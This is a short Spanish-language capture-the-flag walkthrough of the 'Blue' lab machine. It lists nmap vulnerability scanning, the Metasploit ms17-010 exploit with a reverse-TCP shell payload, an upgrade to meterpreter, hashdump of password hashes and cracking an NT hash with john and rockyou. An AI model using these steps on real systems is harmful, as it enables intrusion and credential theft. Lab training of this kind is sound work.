

# BLUE
NMAP


Buscamos vulnerabilidades
nmap -sV -sC --script vuln 10.10.141.85
Metasploit
Buscamos la vulnerabilidad anterior
search ms17-010

Establecemos RHOSTS y añadimos un payload
set payload windows/x64/shell/reverse_tcp
Ejecutamos el exploit y tendremos una shell, salimos con CTRL + Z
Buscamos un módulo que permita cambiar de shell a meterpreter
search shell_to_meterpreter

Ejecutamos con run y tendremos 2 sesiones iniciadas

Listamos todos los procesos corriendo con ps

Tendremos que migrar a un proceso, en este caso 1540
migrate 1540
Usamos el comando hashdump, para ver los hashes de las contraseñas
Pasamos el hash a un txt y lo rompemos
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Flags
En C: encontraremos la primera flag

En c:\Windows\System32\Config encontramos la segunda flag
Dentro de los documentos de Jon encontramos la tercera flag
